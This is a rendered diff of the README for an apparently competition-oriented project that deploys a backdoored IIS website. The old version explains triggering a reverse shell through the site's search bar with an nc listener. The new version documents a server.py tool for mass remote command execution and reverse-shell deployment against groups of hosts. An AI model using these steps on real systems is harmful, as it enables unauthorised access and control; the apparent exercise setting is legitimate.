

Before and after one commit to Lcdemi/IIS-Reverse-Shell, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 92% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -68,9 +68,7 @@ This project demonstrates advanced penetration testing techniques against IIS we
   sudo add-apt-repository ppa:ansible/ansible --yes --update
   sudo apt install ansible
   sudo apt install python3-pip
-  ansible-galaxy collection install ansible.windows community.windows
   pip install inquirerpy
-  pip install pywinrm
   ```
 
 ### Steps
@@ -123,40 +121,51 @@ Edit the iis_setup.yml file to include the name of the Competition:
 To set up the IIS server and deploy the website, execute the following command:
 
 ```sh
-ansible-playbook -i inventory.yml iis_setup.yml
+ansible-playbook -i inventory.yml iis_setup.yml -f 50
 ```
 
-## 5a. Spawn a Reverse Shell (Singular Execution)
-To spawn a reverse shell, follow these steps:
+## 5. Remote Code Execution
+For remote command execution and reverse shell deployment, use the included `server.py` Python tool.
 
-1. **Set Up a Listener**: On your machine, start a listener using a tool like `netcat`. For example:
-   ```bash
-   nc -lvnp [PORT]
-   ```
-2. **Trigger the Reverse Shell**: Once the deployment is complete, open your browser and navigate to: http://your_server_ip/. On the deployed website, locate the search bar. Enter the following command:
-    ```html
-    search [YOUR_IP] [PORT]
-    ```
-    Replace `[YOUR_IP]` with your machine's IP address and `[PORT]` with the port you are listening on (e.g., `8080`).
-
-3. **Gain Access**: Once the command is executed, a system shell will be spawned, and you will have access to the target machine.
-
-## 5b. OS Command Injection (Mass Execution)
-For large-scale operations or testing multiple targets simultaneously, use the included `server.py` Python script to automate command execution across multiple compromised hosts.
-
-### Server.py Features
-- **Mass RCE**: Execute commands on multiple targets simultaneously
-- **Concurrent Processing**: Handle multiple connections efficiently
-- **Command Queueing**: Queue commands for execution across all connected hosts
-- **Real-time Output**: Live output from all connected systems
-- **Session Management**: Track active reverse shell sessions
+### Features
+- **Singular Command Execution**: Run commands on individual targets
+- **Mass Command Execution**: Execute commands across multiple targets simultaneously
+- **Reverse Shell Deployment**: Spawn reverse shells to your listener
+- **Target Group Management**: Pre-defined groups for different host types
+- **Real-time Results**: Live output from all connected systems
 
 ### Usage
 
-#### Starting the Mass RCE Server
+#### Starting the Tool
+```sh
+python3 server.py
+```
+
+#### Available Actions
+- **Singular Remote Code Execution**: Execute commands on single targets
+- **Mass Remote Code Execution**: Run commands across target groups
+- **Spawn a Reverse Shell**: Deploy reverse shells
+
+#### Target Groups
+- **All Hosts**
+- **Domain Controllers**
+- **IIS Hosts**
+- **WinRM Hosts**
+- **ICMP Hosts**
+- **SMB Hosts**
+- **Custom Targets (Manual IP input)**
+
+Note: The target IP addresses in server.py are pre-configured for a specific network environment (192.168.X.X and 10.X.1.X ranges). You may need to modify the ALL_HOSTS, ALL_DC, ALL_IIS, ALL_WINRM, ALL_ICMP, and ALL_SMB arrays in the script to match your target network configuration.
+
+#### Example Usage
 ```bash
-# Start the RCE server on a specific port
-python server.py -p 8888
+# Check privileges across all IIS servers
+> Select "Mass Remote Code Execution"
+> Choose "All IIS Hosts"
+> Enter command: whoami /priv
 
-# Or use default port 8888
-python server.py
+# Deploy reverse shell to specific target
+> Select "Spawn a Reverse Shell"
+> Enter target: 192.168.4.3
+> Enter listener: 10.65.0.10:6767
+```
````
